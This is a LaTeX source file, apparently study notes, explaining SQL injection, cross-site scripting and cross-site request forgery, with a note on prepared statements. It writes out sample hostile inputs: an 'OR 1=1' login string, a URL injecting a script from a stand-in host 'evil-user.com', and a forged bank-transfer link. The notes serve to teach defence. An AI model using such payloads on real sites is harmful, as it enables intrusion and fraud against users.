 \documentclass[12pt]{report}
\begin{document}
\section{Web application attacks}
\subsection{SQL injections}
SQL injections are a method of attack where SQL code is entered into an input field. 
If the site is poorly made, this code actually will be executed. For example:
\begin{verbatim}
	Username: Lewis OR 1=1;
\end{verbatim}
This would return all users, as 1 = 1 is a true statement, so \newline SELECT * FROM USERS WHERE 1 = 1 will select all.

\subsubsection{Prevention}
To prevent SQL injection attacks, statements must be \textbf{prepared} (or otherwise sanitised) to remove escape characters and ensure that the user's input cannot
possibly be processed by the database as anything other than what it should be.

\subsection{Cross-site scripting (XSS)}
XSS is an attack vector where a threat agent manipulates a URL to perform unintended actions. For example,
\begin{verbatim}
https://my-site.com/messages?msg="Hello!"
\end{verbatim}
could be manipulated into 
\footnotesize\begin{verbatim}
https://my-site.com/messages?msg=<script src=https://evil-user.com/virus.js></script>
\end{verbatim}
\normalsize

\subsection{Cross-site request forging/forgery (CSRF)}
CSRF is an attack vector where a threat agent uses a legitimate link to bypass the need for the attacker to gain the user's credentials. Because sites store the current login, a link can be sent to perform an action and if a user clicks it, they will have done the threat agent's will without the need for their credentials to be stolen. For example,
\begin{verbatim}
http://bank.com/transfer?account=Hacker&amount=1000
\end{verbatim}
Because the user is logged in, this is a completely legitimate link. CSRF can also be used in alternative ways such as loading the link into a clickable image.
\end{document}
